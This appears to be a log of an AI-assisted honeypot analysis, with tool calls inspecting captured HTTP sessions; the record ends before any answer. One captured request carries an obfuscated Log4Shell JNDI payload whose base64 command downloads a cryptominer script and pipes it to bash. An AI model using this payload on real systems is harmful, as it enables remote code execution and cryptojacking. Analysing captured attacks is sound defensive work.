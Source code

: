 | Output | Value |
| --- | --- |
| `error` | `Error getting tool output: unhashable type: 'Session'. Try again with different arguments.` |

**Step ID:** `step_jHDYzb5Wh86heQn1u6y8ngVH`

**Function called:** `get_attack_attrs`

| Argument | Value |
| --- | --- |
| `attrs` | `['sessions']` |

| Output | Value |
| --- | --- |
| `sessions` | `['Session ClAc5H30D12h4Tgugh HTTP 95.214.53.103:37420 -> 172.31.5.68:8000 HTTP Requests: 1, Duration: 0.00s', 'Session C7dLM77vS89HLbhDj HTTP 95.214.53.99:59090 -> 172.31.5.68:8080 HTTP Requests: 1, Duration: 0.00s']` |


<details><summary>
<h3>Answer</h3>
</summary></details>

---


## Prompt: Analyze the HTTP sessions in the context of the attack. Include the URIs, HTTP headers, and any other relevant info.

**Run ID:** `run_Cu69JCg7VIACUV5KU4u3U5vO`

### Funciton Calls
**Step ID:** `step_QLZRsVyFqe68xbBf4Gg7vuvx`

**Function called:** `get_session_attrs`

| Argument | Value |
| --- | --- |
| `session_id` | `ClAc5H30D12h4Tgugh` |
| `attrs` | `['http_requests']` |

| Output | Value |
| --- | --- |
| `http_requests` | `{"GET / HTTP/1.1\nUser-Agent: t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//174.138.82.190:1389/TomcatBypass/Command/Base64/Y3VybCAtcyAtTCBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vQzNQb29sL3htcmlnX3NldHVwL21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBiYXNoIC1zIDQ4Nnhxdzd5c1hkS3c3UmtWelQ1dGRTaUR0RTZzb3hVZFlhR2FHRTFHb2FDZHZCRjdyVmc1b01YTDlwRngzckIxV1VDWnJKdmQ2QUhNRldpcGVZdDVlRk5VeDlwbUdO}')\nHost: 54.67.87.80:8000\nReferrer: t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//174.138.82.190:1389/TomcatBypass/Command/Base64/Y3VybCAtcyAtTCBodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vQzNQb29sL3htcmlnX3NldHVwL21hc3Rlci9zZXR1cF9jM3Bvb2xfbWluZXIuc2ggfCBiYXNoIC1zIDQ4Nnhxdzd5c1hkS3c3UmtWelQ1dGRTaUR0RTZzb3hVZFlhR2FHRTFHb2FDZHZCRjdyVmc1b01YTDlwRngzckIxV1VDWnJKdmQ2QUhNRldpcGVZdDVlRk5VeDlwbUdO}')"}` |

**Step ID:** `step_3VM5eXkonPHAxAoGRrXdTgqA`

**Function called:** `get_session_attrs`

| Argument | Value |
| --- | --- |
| `session_id` | `C7dLM77vS89HLbhDj` |
| `attrs` | `['http_requests']` |
